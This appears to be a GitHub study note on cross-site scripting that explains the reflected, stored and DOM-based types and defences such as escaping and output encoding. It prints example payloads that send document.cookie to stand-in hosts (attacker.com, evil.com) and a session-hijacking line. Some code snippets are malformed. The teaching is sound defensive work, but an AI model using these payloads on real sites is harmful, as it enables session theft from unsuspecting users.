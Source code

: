 <h3>Cross-Site Scripting (XSS)</h3>

These are types of attacks where malicous scripts usually in the form of Javascript are injected into a web application by a innocent end user. This happens because of insecure handling of user input such as the "search bar". There are three types of attacks: 

- <b>Non-persistent (reflected):</b> Attackers would send a user a link by utilizing impersonification, phishing, smishing, or any way to gain trust of the user to click the link. This link would contain malicious Javascript, where once the user performs that HTTP request to the server, the server reflects that HTTP request as a response.  
  
  For example: 

  ```javascript
  https:www.amazon.com/search?q=<script>fetch('http://attacker.com/steal?cookie=' + document.cookie)</script>
  ```
    This script would run in back if a user simply sees "amazon.com" which looks normal and the user is most likely using amazon to purchase products. However, once a user clicks the link, it would automatically take them to amazon's search perform the reflected injection: `<script>fetch('http://attacker.com/steal?cookie=' + document.cookie)</script>`into the web browser. This would take the users cookies/session ID and send it to the attacker. 

    The cookies/session ID keeps you logged in and server uses it to know who you are. Once the attacker gets a hold of it, they can set their own browser's session to your stolen one: 
    
    ```javascript
    document.cookie = "session_id=abc123xyz";
    ```
    Once set, they can visit the webpage, and they'd be logged in as you. 

- <b>Persistent (stored):</b> This is a bit different where the attacker would also find a vulnerable input field, but one that stores data in a database. Somes fields include the review section on amazon, comments, message forums, etc... This does not require a user to click a link like in non-persistent XSS, a user simply just has to visit the webpage like normal web browsing. 

  An attacker would post a comment along with the malicious script. An example would be:  
  ```javascript
  Great product, it works pretty good! <script>fetch('http://evil.com/steal?c=' + document.cookie)</script>
  ```
    This script is now <b>persistent</b> (stored and stuck there) in the database. Now, when any other user views that product page, the script runs automatically in the victim's web browser and sends session cookies or sensitive information to the attacker's server. 

    A software developer must remediate this or else it is stuck there and is especially dangerous if an admin view its. This is because the attacker can perform actions as the admin and escalate privileges. 

- <b>DOM (Document Object Model) Based XSS:</b> For the other attacks mentions before, the malicious payload is either sent to the server (reflected) or stays in the server (stored). In this case, the malcious payload never reaches the server. This means the server can't detect it, and can't sanitize or filter the user input. The client-side vulnerable JavaScript code would get exploited. Just like reflected XSS, the user must open a specially crafted URl for this attack to occur. 

<hr>

For a XSS to be successful, an attacker just needs to insert and execute malicious content in a webpage, which is why all <b>Variables</b> need to be protected. To do so, we can make sure that they are <b>Escaped</b> or <b>Sanitized</b> which is known as <b>Perfect Injection Resistance</b>. For instance, escaping characters such as `<, >, &, ", '` so the input is not interpreted as executable code or Sanitization which is removing or altering unwanted input so that only 
"safe" content remains such as sanitizing `<b>Hello</b> <script>alert(1)</script>` to only this `<b>Hello</b>`. 

To defend against a XSS attack, there is not one way to solve it, rather a combination of techniques. Luckily, coding frameworks like steer Software developers towards good security coding practices to help reduce XSS attacks, however, security gaps still exist in them. There are a couple of techniques to defend against this: 

- <b>Output Encoding:</b> This protects against Stored and Reflected attacks where the text inserted by the user should not be interpreted as executable code, rather the actual text that the user has typed in. 

  - <b>"HTML Contexts"</b> --> refers to inserting a variable between two basic HTML tags like a `<div>` or `<b>`. In this case, the front end HTML trusts the user input and directly asks the backend for the results. It is important to use `'` and `""` to surround variables which makes it difficult to change the context of the variable. 

    ``` html
    <img src=<%= photoUrl % alt="Profile Picture">   <!-- No quotes in between "photoUrl" insecure-->

    <!-- THE ATTACK! -->
    <script>alert('XSS')</script> <!-- since the above code has not been escaped, the browser is the one that executes the injected code since it interprets it as code. 

    <!-- Rendered HTML Results Page -->
    <p>Results for: <script>alert('XSS')</script></p> <!-- -->

    <!--------------------> 
    <<img src="<%= photoUrl %>" alt="Profile Picture"> <!--Secure since "photourl" has quotes, but rmemember that we need additional security measures on top of this--> 